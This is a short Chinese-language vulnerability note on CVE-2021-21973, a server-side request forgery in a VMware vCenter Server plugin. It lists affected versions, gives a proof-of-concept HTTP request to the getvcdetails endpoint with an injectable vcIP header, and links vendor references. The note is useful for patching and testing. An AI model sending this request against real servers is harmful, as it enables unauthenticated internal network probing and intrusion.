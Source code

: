 # VMware vCenter Server 服务器端请求伪造漏洞 (CVE-2021-21973)

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

影响版本：

vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0

Cloud Foundation: before 3.10.1.2, 4.2

![](images/16158583105399.jpg)

**PoC:**


```bash
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
HOST:
vcIP: SSRF
vcUsername:sa
vaPassword:sa
reqResource:sa
...
```

![](images/16158583337487.jpg)


ref：

* https://kb.vmware.com/s/article/82374
* https://twitter.com/osama_hroot/status/1365586206982082560
